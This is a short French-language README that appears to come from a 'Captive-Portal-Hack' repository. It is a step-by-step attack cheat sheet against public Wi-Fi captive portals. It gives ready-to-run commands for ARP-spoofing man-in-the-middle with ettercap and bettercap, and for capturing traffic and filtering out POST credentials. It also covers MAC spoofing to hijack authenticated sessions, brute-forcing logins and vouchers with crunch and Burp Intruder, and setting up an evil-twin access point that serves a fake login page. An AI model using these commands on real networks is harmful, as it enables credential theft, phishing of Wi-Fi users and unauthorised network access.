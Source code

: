# Captive-Portal-Hack
Captive portal hacking

**-->Arp Spoofing / MiTm**

Outils: ettercap, bettercap, air... suite, wireshark ...

Commandes utiles et steps:

**Ettercap**
-$sudo ettercap -Tq -M arp:remote -i wlan0 ///

**airmon-ng, airodump-ng, wireshark**
-$sudo airmon-ng check kill
-$sudo airmon-ng start wlan0
-$sudo airodump-ng wlan0
-$sudo airodump-ng --bssid <BSSID> -c <CH> -w nomFichierCapture wlan0
Ensuite ouvrir le fichier de capture .cap dans wireshark et filtrer les traffics post (http.request.method==POST).

**Bettercap**
-$sudo bettercap -iface wlan0 
  Dans la console bettercap:
    >net.probe on
    >net.recon on
    >arp.spoof on 
    >net.sniff on

**-->Mac Spoofing**
Outils: aircrack-ng suite, ip ...

Commandes utiles:

**aircrack suite, ifconfig, macchanger**
-$sudo airmon-ng start wlan0
-$sudo airodump-ng wlan0mon 
-$sudo ifconfig wlan0 down
-$sudo macchanger -m AA:BB:CC:DD:EE:FF wlan0
-$sudo iwconfig wlan0 mode managed
-$sudo ifconfig wlan0 up
-$sudo systemctl restart NetworkManager


**--> Bruteforce des identifiants**
Outils : crunch, burpsuite

Quelques prérequis:
Observer le format des mots de passe/vouchers (longueur, caractères) pour créer un dictionnaire ciblé.
Le MAC spoofing peut servir à identifier un nom d’utilisateur via la page /status.

-$crunch <minLength> <maxLength> <charset> > dictionnaire.txt

**Steps**
- Ouvrir Burp Suite et aller dans l’onglet Proxy.
- Configurer le navigateur pour passer par le proxy de Burp ou utiliser le navigateur intégré.
- Charger la page de login et soumettre des identifiants incorrects.
- Intercepter la requête et l’envoyer à Intruder.
- Sélectionner les champs à brute-forcer.
- Choisir Battering Ram (username = password) ou Cluster Bomb (username ≠ password).
- Charger le dictionnaire.
- Dans Resource Pool, définir delay between requests = 1000 ms et max concurrent requests = 1.
- Lancer l’attaque et observer une réponse de longueur très différente (ça aura un code 302 redirect ou un 404 not found)


**--> Faux points d'accès**
Outils: fluxion, airbase-ng
Commandes utiles:
-$sudo airmon-ng start wlan0
-$sudo airbase-ng -e "EvilTwinName" -c 6 wlan0

Servir une fausse page de connexion et rediriger tout le traffic http vers elle



